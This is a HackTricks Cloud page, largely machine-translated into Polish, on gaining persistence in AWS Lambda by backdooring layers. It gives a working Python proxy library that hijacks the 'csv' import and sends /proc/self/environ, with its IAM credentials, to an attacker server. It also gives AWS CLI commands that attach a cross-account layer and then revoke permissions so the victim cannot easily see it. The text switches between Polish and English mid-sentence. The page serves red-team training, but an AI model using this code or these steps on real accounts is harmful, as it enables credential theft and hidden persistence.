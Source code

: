 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Warstwa Lambda to archiwum .zip, które **może zawierać dodatkowy kod** lub inne treści. Warstwa może zawierać biblioteki, [niestandardowe środowisko uruchomieniowe](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), dane lub pliki konfiguracyjne.

Możliwe jest dołączenie do **pięciu warstw na funkcję**. Gdy dołączasz warstwę do funkcji, **zawartość jest wypakowywana do katalogu `/opt`** w środowisku wykonawczym.

Z **domyślnie**, **warstwy**, które tworzysz, są **prywatne** dla twojego konta AWS. Możesz zdecydować się na **udostępnienie** warstwy innym kontom lub **uczynić** warstwę **publiczną**. Jeśli twoje funkcje korzystają z warstwy opublikowanej przez inne konto, twoje funkcje mogą **nadal używać wersji warstwy po jej usunięciu lub po cofnięciu twojego dostępu do warstwy**. Jednak nie możesz utworzyć nowej funkcji ani zaktualizować funkcji korzystających z usuniętej wersji warstwy.

Funkcje wdrożone jako obraz kontenera nie używają warstw. Zamiast tego pakujesz swoje preferowane środowisko uruchomieniowe, biblioteki i inne zależności do obrazu kontenera podczas budowania obrazu.

### Python load path

Ścieżka ładowania, której Python użyje w lambda, jest następująca:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Sprawdź, jak **drugie** i trzecie **pozycje** są zajmowane przez katalogi, w których **lambda layers** dekompresują swoje pliki: **`/opt/python/lib/python3.9/site-packages`** i **`/opt/python`**

{% hint style="danger" %}
Jeśli atakujący zdołałby **wprowadzić tylne drzwi** do używanej **warstwy lambda** lub **dodać jedną**, która będzie **wykonywać dowolny kod, gdy załadowana zostanie wspólna biblioteka**, będzie mógł wykonywać złośliwy kod przy każdym wywołaniu lambda.
{% endhint %}

Dlatego wymagania są następujące:

* **Sprawdź biblioteki**, które są **ładowane** przez kod ofiary
* Stwórz **bibliotekę proxy z warstwami lambda**, która będzie **wykonywać niestandardowy kod** i **ładować oryginalną** bibliotekę.

### Wstępnie załadowane biblioteki

{% hint style="warning" %}
Podczas nadużywania tej techniki napotkałem trudność: Niektóre biblioteki są **już załadowane** w czasie działania Pythona, gdy twój kod jest wykonywany. Spodziewałem się znaleźć takie rzeczy jak `os` czy `sys`, ale **nawet biblioteka `json` była załadowana**.\
Aby nadużyć tę technikę utrzymywania, kod musi **załadować nową bibliotekę, która nie jest załadowana**, gdy kod jest wykonywany.
{% endhint %}

Dzięki kodowi Pythona takiemu jak ten, możliwe jest uzyskanie **listy bibliotek, które są wstępnie załadowane** w czasie działania Pythona w lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
A oto **lista** (sprawdź, czy takie biblioteki jak `os` lub `json` są już dostępne)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
I oto lista **bibliotek**, które **lambda zawiera zainstalowane domyślnie**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring warstwy Lambda

W tym przykładzie załóżmy, że kod docelowy importuje **`csv`**. Będziemy **wprowadzać backdoor w imporcie biblioteki `csv`**.

Aby to zrobić, stworzymy **katalog csv** z plikiem **`__init__.py`** w ścieżce, która jest ładowana przez lambda: **`/opt/python/lib/python3.9/site-packages`**\
Następnie, gdy lambda zostanie wykonana i spróbuje załadować **csv**, nasz **plik `__init__.py` zostanie załadowany i wykonany**.\
Ten plik musi:

* Wykonać nasz ładunek
* Załadować oryginalną bibliotekę csv

Możemy zrobić to obie rzeczy za pomocą:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Then, create a zip with this code in the path **`python/lib/python3.9/site-packages/__init__.py`** and add it as a lambda layer.

You can find this code in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

The integrated payload will **wysłać dane uwierzytelniające IAM na serwer PIERWSZY RAZ, gdy zostanie wywołany lub PO zresetowaniu kontenera lambda** (zmiana kodu lub zimna lambda), ale **inne techniki** takie jak poniższe mogą być również zintegrowane:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### External Layers

Note that it's possible to use **lambda layers from external accounts**. Moreover, a lambda can use a layer from an external account even if it doesn't have permissions.\
Also note that the **maksymalna liczba warstw, które może mieć lambda, to 5**.

Therefore, in order to improve the versatility of this technique an attacker could:

* Backdoor an existing layer of the user (nothing is external)
* **Utworzyć** **warstwę** w **swoim koncie**, dać **koncie ofiary dostęp** do używania warstwy, **skonfigurować** **warstwę** w Lambdzie ofiary i **usunąć uprawnienia**.
* **Lambda** nadal będzie mogła **używać warstwy**, a **ofiara nie** będzie miała łatwego sposobu na **pobranie kodu warstwy** (oprócz uzyskania powłoki rev wewnątrz lambdy)
* Ofiara **nie zobaczy zewnętrznych warstw** używanych z **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

